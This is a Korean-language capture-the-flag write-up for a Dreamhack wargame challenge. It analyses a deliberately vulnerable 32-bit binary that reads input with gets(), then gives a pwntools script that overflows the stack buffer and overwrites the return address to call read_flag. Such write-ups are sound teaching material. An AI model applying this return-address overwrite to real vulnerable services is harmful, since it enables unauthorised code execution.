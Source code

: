 # 목차
1. 문제 설명

    1.1. Description

    1.2. Environment

2. 문제 파일 분석

    2.1. 코드 분석

    2.2. 실행 파일 분석

3. 문제 풀이 코드

# 1. 문제 설명

## 1.1. Description

이 문제는 서버에서 작동하고 있는 서비스(basic_exploitation_001)의 바이너리와 소스 코드가 주어집니다.

프로그램의 취약점을 찾고 익스플로잇해 "flag" 파일을 읽으세요.

"flag" 파일의 내용을 워게임 사이트에 인증하면 점수를 획득할 수 있습니다.

플래그의 형식은 DH{...} 입니다.

## 1.2. Environment

Ubuntu 16.04

Arch:     i386-32-little

RELRO:    No RELRO

Stack:    No canary found

NX:       NX enabled
- *NX보호기법이란?*
    - *명칭*
        - *NX(No-eXecute) bit*
    - *특징*
        - *버퍼 오버플로우 보호 기법중 하나*
        - *스택, 힙과 같은 영역에서 코드가 실행되는 것을 막는 보호기법*
        - *nx 보호기법이 적용되어 있다면, shellcode를 실행할 수 없음*
    - *NX bit 설정 확인 명령어 : dmesg | grep NX*
    - *우회 방법*
        - *system함수를 호출하는 특정 함수의 주소로 ret를 변조*

PIE:      No PIE (0x8048000)

# 2. 문제 파일 분석

## 2.1. 코드 분석

`cat basic_exploitation_001.c`를 통해 코드를 확인
```
// basic_exploitation_001.c //

#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}


void read_flag() {
    system("cat /flag");
}

int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();
    
    gets(buf);

    return 0;
}
```
- 주요 기능
    - `main`함수가 실행
    - 스택 메모리에 `0x80(128)byte`의 공간을 부여
    - `gets(buf)`를 통해 입력을 받음

    - `read_flag`함수가 실행되면 `/flag`파일의 내용을 출력

- 주의
    - `gets`함수가 버퍼 크기에 대한 검증이 실행하지 않음
    - `gets`함수의 버퍼를 다 채울 경우 `null`이 들어갈 수 없어 오류 발생

위의 과정을 통해 **stack-bof**를 발생시킬 수 있음을 확인

즉, ASLR 보호 기법이 없는 경우 `gets`함수의 복귀 주소가 저장되어있는 `ret`에 `read_flag`함수의 주소를 넣어 **ret overwrite**이 발생 가능

## 2.2. 실행 파일 분석

`gdb ./basic_exploitation_001`를 통해 GNU 디버거를 실행

`disass main`를 통해 `main`함수의 어셈블리 확인
```
Dump of assembler code for function main:
   0x080485cc <+0>:     push   ebp
   0x080485cd <+1>:     mov    ebp,esp
   0x080485cf <+3>:     add    esp,0xffffff80
   0x080485d2 <+6>:     call   0x8048572 <initialize>
   0x080485d7 <+11>:    lea    eax,[ebp-0x80]
   0x080485da <+14>:    push   eax
   0x080485db <+15>:    call   0x80483d0 <gets@plt>
=> 0x080485e0 <+20>:    add    esp,0x4
   0x080485e3 <+23>:    mov    eax,0x0
   0x080485e8 <+28>:    leave
   0x080485e9 <+29>:    ret
```
`0x080485d7 <+11>:    lea    eax,[ebp-0x80]`: gets 함수의 시작주소를 저장

`0x080485db <+15>:    call   0x80483d0 <gets@plt>`: `0x80483d0` 주소에 저장된 `gets`함수를 실행

```
-- 스택에 쌓인 모습 --

높은 메모리 주소
+---------------+ <-- ebp
|      ...      |
+---------------+
|      ret      | <-- gets 함수 호출 후 반환될 주소
|    4 byte     |
+---------------+
|      sfp      | 
|    4 byte     |
+---------------+
|      buf      |
|   (128 byte)  |
+---------------+ <-- buf 배열의 시작 주소 [ebp - 0x80]
낮은 메모리 주소
```
`"x/i read_flag" or "disass read_flag"`등을 입력

`0x80485b9 <read_flag>:       push   ebp`

`ret`에 들어갈 `read_flag`함수의 주소 확인

# 3. 문제 풀이 코드

```
from pwn import *

payload = b'\x90'*128 + b'\x90'*4 + b'\xb9\x85\x04\x08' #buf + sfp + read_flag()

r = remote('host3.dreamhack.games', 12515)

r.send(payload)

r.interactive()
```
`\x90*128`: 버퍼에 아무 문자로 다 채움

`\x90*4`: sfp에 아무 문자로 다 채움

*32bit 환경에서는 sfp가 4byte의 크기*

*64bit 환경에서는 sfp가 8byte의 크기*

`\xb9\x85\x04\x08`: `ret`에 들어갈 `read_flag`함수의 주소를 리틀엔디안 방식으로 입력